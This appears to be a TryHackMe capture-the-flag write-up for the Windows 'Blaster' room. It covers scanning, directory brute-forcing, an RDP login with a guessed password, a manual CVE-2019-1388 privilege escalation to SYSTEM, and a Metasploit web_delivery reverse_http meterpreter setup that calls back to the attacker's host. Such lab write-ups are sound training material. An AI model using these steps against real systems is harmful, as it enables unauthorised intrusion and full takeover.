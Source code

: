 ```yaml
---
layout: post
title: "Blaster"
date: 2022-02-03
categories: [Tryhackme, Easy-THM]
tags: [retro, windows, redux, privesc]
image: ../../assets/img/posts/Blaster/blaster.png 

---
```


## Description

A blast from the past!

|**Room**|[Blaster](https://tryhackme.com/room/blaster)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://twitter.com/darkstar7471)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.41.77
```
![rustscan](../../assets/img/posts/Blaster/rustscan.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p80,3389 10.10.41.77 -oN nmap.txt
```
![nmap](../../assets/img/posts/Blaster/nmap.png)

Scan results describes that port 80 Microsoft IIS server and port 3389 is running rdp server. Name of the machine is RetroWeb. Let's enumerate port 80. 

Visit http://10.10.41.77/,
![webpage1](../../assets/img/posts/Blaster/webpage1.png)

We got the welcome page of Microsoft IIS Server (default page).

From here, we can actually brute force the directories,

```bash
dirsearch -u http://10.10.41.77 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -i 200,301 -o dirsearch.txt 2>/dev/null
```
![dirsearch](../../assets/img/posts/Blaster/dirsearch.png)

dirsearch found the hidden directory named **/retro**. Let's enumerate it.

Visit http://10.10.41.77/retro/,
![webpage2](../../assets/img/posts/Blaster/webpage2.png)

By looking at this, I get the idea that this is kinda a blog website on retro games. There is a name Wade (might be username).

Looking around this website and I got suspicious of this blog, 
![webpage3](../../assets/img/posts/Blaster/webpage3.png)

So I followed this blog and landed on this page,
![webpage4](../../assets/img/posts/Blaster/webpage4.png)

Author of this blog is also the Wade then it might can be a password.

Since we know that rdp server is running then we can use `remmina` to connect to machine,
![rdp](../../assets/img/posts/Blaster/rdp.png)

There we got interface,
![rdp2](../../assets/img/posts/Blaster/rdp2.png)

and also our user flag.

There is hhupd.exe file, so I searched it on google,

> CVE-2019-1388 : An elevation of privilege vulnerability exists in the Windows Certificate Dialog when it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'.

The POC of this vulnerability can be found on [Windows UAC Privilege Escalation CVE-2019-1388](https://www.programmersought.com/article/13092509797/).

Run hhupd.exe as administrator,
![rdp3](../../assets/img/posts/Blaster/rdp3.png)

when we try to enter the password which we don't know, then it will throw us an error. But actually, we can see "Show more details" button just before the password area. Let's click on that,

![rdp4](../../assets/img/posts/Blaster/rdp4.png)

it shows the program location and "show information about the publisher's certificate". Follow the link by clicking on it.

It opens up a dialogue box showing the information about certificate issuer,
![rdp5](../../assets/img/posts/Blaster/rdp5.png)

There is an "Issued By" text so I followed this link.

It opens up the Internet Explorer,
![rdp6](../../assets/img/posts/Blaster/rdp6.png)

but the page can't be loaded because this machine is not connected to internet.

We can save this webpage in "C:\Windows\System32\",
![rdp7](../../assets/img/posts/Blaster/rdp7.png)

now before saving it, type *.* to save it and there after scrolling down, we can see the cmd executable. Let's run this executable.

Command prompt opens up as System32,
![rdp8](../../assets/img/posts/Blaster/rdp8.png)

issuing `whoami` command reveals us that we are **nt authority\system** user means we are administrator.

Navigating to C:\Users\Administrator\Desktop and listing directory content, 
![rdp9](../../assets/img/posts/Blaster/rdp9.png)

we can see the root flag.

## Metasploit Method

Boot up the metasploit using `msfconsole -q` and then we are using web_delivery module to exploit this vulnerability,

```bash
use exploit/multi/script/web_delivery
```
![metasploit](../../assets/img/posts/Blaster/metasploit.png)

setting `options`:
- `set lhost tun0`
- `set target 2` (PSH)
- `set payload windows/meterpreter/reverse_http`

Running this module in background using `run -j` (it will run the exploit in background and when it receives connection from remote machine, it will notify us to interact with that session),
![metasploit2](../../assets/img/posts/Blaster/metasploit2.png)

after running this module, we got the powershell command. Now, copy this command and paste this on remote machine command prompt.

When this pasted command gets executed on remote machine, our payload will get delivered,
![metasploit3](../../assets/img/posts/Blaster/metasploit3.png)

and we got a meterpreter session. 

Interact with session 1,
![metasploit4](../../assets/img/posts/Blaster/metasploit4.png)

issuing `getuid` command reveals that we are **NT AUTHORITY\SYSTEM** user.
